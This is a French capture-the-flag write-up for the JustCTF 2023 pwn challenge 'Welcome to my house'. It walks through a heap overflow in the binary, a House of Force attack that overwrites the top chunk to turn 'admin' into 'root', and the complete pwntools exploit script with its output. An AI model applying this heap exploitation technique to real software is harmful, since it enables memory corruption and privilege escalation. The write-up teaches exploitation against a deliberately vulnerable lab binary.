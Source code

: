 ```yaml
---
title: JustCTF 2023 - Welcome to my house
date: 2024-11-02
tags: 
- heap exploitation
- house of force
category: 
- ctf
- pwn
---
```


# Découverte du challenge

file
```bash
› file house_patched                 
house_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=efb671ee78fcd896b0e79a07aa8cb08817475d31, not stripped
```

checksec
```
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

ldd
```
› ldd house_patched
	linux-vdso.so.1 (0x000078f5573e8000)
	libc.so.6 => ./libc.so.6 (0x000078f556c00000)
	./ld-2.27.so => /usr/lib64/ld-linux-x86-64.so.2 (0x000078f5573ea000)
```

glibc version
```
libc 2.27
```


En lancant le challenge on a la possibilité de faire : 
- Créer un utilisateur
- Lire le flag

```
[!]	Welcome in my house!	[!]

Actual user: admin

1. Create user
2. Read flag
3. Exit
```

On ne peut lire le flag seulement si on est l'utilisateur root, ici nous sommes admin.

```
>>  2

[-] You have to be root to read flag!
```

La commande "Create user" va faire : 
- Demander un nom d'utilisateur
- Demander un mot de passe
- Demander une taille de disque ??

En reversant cette méthode, on comprend que le programme alloue des chunks pour chaque variable qu'il va nous demander.   

Une partie intéressante ici : on contrôle la taille du chunk qui va être alloué pour l'espace disque.
De plus, le contenu de "password" est copié vers un chunk de taille 0x18 à la suite du chunk pour notre espace mémoire.
Pour finir, plusieurs heap overflow sont possibles. 

```c
int64_t create_user(){
	void* fsbase
    int64_t rax = *(fsbase + 0x28)
    printf("Enter username: ")
    int64_t ptr_username = malloc(0x19)
	__isoc99_scanf(&data_400c29, ptr_username)
    putchar(0xa)
    strcpy(malloc(0x18), ptr_username)
    printf("Enter password: ")
    int64_t ptr_password = malloc(0x18)
    __isoc99_scanf(&data_400c29, ptr_password)
    putchar(0xa)
    printf("Enter disk space: ")
    putchar(0xa)
    int64_t var_30
    __isoc99_scanf(&data_400c50, &var_30)
    malloc(var_30)
    int64_t rax_12 = malloc(0x18)
    strcpy(rax_12, ptr_password, rax_12)
    int64_t rax_15 = rax ^ *(fsbase + 0x28)
    if (rax_15 != 0)
	    rax_15 = __stack_chk_fail()
    return rax_15
}
```

**Idée** : Est ce qu'on pourrait utiliser la technique house of force pour écraser le top chunk, combler le vide qu'il y a entre notre position sur la heap et notre target, puis écraser le contenu de la target par "root" ?

Alors c'est partie !

Pour commencer, on utiliser le heap overflow pour écraser le top chunk et y placer la taille maximum (0xFFFFFFFFFFFFFFFF)

```pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000251	........Q.......
...
0x603250	0x0000000000000000	0x0000000000000021	........!.......
0x603260	0x0000006e696d6461	0x0000000000000000	admin...........
0x603270	0x0000000000000000	0x0000000000000031	........1.......
0x603280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603290	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x6032a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Ensuite, on calcule la distance qui sépare notre notre variable target avec notre position actuelle dans la heap.
Notre binaire n'étant pas PIE, on trouve les adresses grâce à GDB.

```python
target = 0x603250
heap = 0x603300

def delta(x,y):
    return (0xffffffffffffffff - x) + y
dist = delta(heap, target+16)
```

Maintenant, on construit notre payload: 
- On remplit les userdata du chunk avec des données junk, puis on écrase le TOP CHUNK avec un très grand nombre (cela nous permettera de faire de très grosses allocations).
- La variable password doit être à 'root' car elle sera copié par la suite dans notre target
- Comme taille pour l'espace disque, on calcule la distance qu'il y a entre notre position dans la heap et notre target.

```python
create_user(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
read_flag()
```

## Output

```bash
› python xpl.py
[+] Starting local process './house_patched': pid 602233
[*] Target: 0x603250
[*] Heap: 0x603300
[*] Dist: 0xffffffffffffff5f
FLAG{f4k3_fl4g_f0r_t3st1ng}

[*] Stopped process './house_patched' (pid 602233)
```

et voila !

## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './house_patched'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# create user
def cu(username, password, size):
    io.sendlineafter(b">>  ", b"1")
    io.sendlineafter(b"username:", username)
    io.sendlineafter(b"password:", password)
    io.sendlineafter(b"space:", str(size).encode())

# read flag
def rf():
    io.sendlineafter(b">>  ", b"2")
    io.recvline()
    print(io.recvline().decode())

def delta(x,y):
    return (0xffffffffffffffff - x) + y

gdbscript = '''
b create_user
'''.format(**locals())

target = 0x603250
heap = 0x603300
dist= delta(heap, target+16)

io = start()

info(f"Target: {hex(target)}")
info(f"Heap: {hex(heap)}")
info(f"Dist: {hex(dist)}")

cu(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
rf()
```


